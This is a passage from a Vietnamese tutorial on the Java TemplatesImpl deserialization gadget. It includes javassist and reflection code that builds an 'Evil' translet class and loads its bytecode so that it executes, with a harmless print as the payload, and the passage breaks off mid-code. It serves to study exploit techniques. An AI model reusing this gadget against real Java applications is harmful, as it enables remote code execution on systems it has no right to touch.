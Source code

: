 ```
            return translet;
        }
        catch (InstantiationException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
        catch (IllegalAccessException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
```

getTransletInstance cí method newwInstance sẽ match với source ta test ở trên -> thực thi code trong evil class.

Điều kiện set _name != null và _class = null -> ta dùng reflectAPI để set lại value cho chúng

Cuối cùng để trigger đến gadget trên thì ta cần dùng:

![image](https://hackmd.io/_uploads/BJqi9kQ60.png)

``` java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;

import java.lang.reflect.*;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

public class TestClassLoader {

    public static void main(String[] args) throws Exception{

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass EvilClass = pool.makeClass("Evil");

        EvilClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));

        String cmd = "System.out.println(\"aaaaaaaaaaaaaaa\");";
        CtConstructor constructor = EvilClass.makeClassInitializer();
        constructor.insertBefore(cmd);
        EvilClass.writeFile("./");

        byte[] bytes = EvilClass.toBytecode();

        TemplatesImpl template = new TemplatesImpl();

        Class temp = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field _name = temp.getDeclaredField("_name");
        _name.setAccessible(true);
        _name.set(template,"11111");

        Field _class = temp.getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(template,null);

        Field _bytecodes = temp.getDeclaredField("_bytecodes");
        _bytecodes.setAccessible(true);
        _bytecodes.set(template,new byte[][]{bytes});

        Field _tfactory = temp.getDeclaredField("_tfactory");
        _tfactory.setAccessible(true);
        _tfactory.set(template,new TransformerFactoryImpl());
```